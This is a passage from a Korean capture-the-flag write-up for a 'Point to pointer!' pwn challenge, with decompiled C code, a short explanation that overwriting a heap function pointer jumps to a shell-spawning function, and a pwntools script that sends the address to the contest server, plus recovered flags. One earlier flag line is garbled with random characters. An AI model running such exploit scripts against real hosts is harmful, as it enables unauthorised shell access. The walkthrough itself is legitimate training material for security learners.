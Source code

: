 FLAG : FLAG{ˡᐭꅭ곚삍䘐䣇눛뵼ᩎꓨᶐㆰ}
<br><br><br>


## Point to pointer! 529 (Pwn)
```
넘나 쉬운 문제 당신도 풀 수 있습니다!
nc 222.110.147.52:42632
Link
```

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char v4; // [rsp+Fh] [rbp-11h]
  void *buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  buf = malloc(0x30uLL);
  *(buf + 2) = sub_400796;
  (*(buf + 2))(48LL, 0LL);
  read(0, buf, 0x64uLL);
  puts("Retry?(Y/N)");
  __isoc99_scanf("%c", &v4);
  if ( v4 == 'Y' )
    (*(buf + 2))();
  else
    puts("Good bye");
  return 0LL;
}
```
위 소스를 보면 입력한 값으로 점프하는데 sub_4007A7()가 쉘을 실행시켜주는 함수다. 그래서 그냥 sub_4007A7()로 뛰면된다.

```python
from pwn import *

s = remote('222.110.147.52',42632)

system = 0x4007a7

s.sendlineafter('RootCTF!',p64(system) * 8)
s.sendline('Y')
s.interactive()
```

FLAG : FLAG is FLAG{P0InT_2_pOiNt_2_PO1t3R!}
<br><br><br>

## Factorization 889 (Pwn)
```
열심히 수련하여 샌드백을 터뜨리자!
nc 222.110.147.52 6975

Link
```
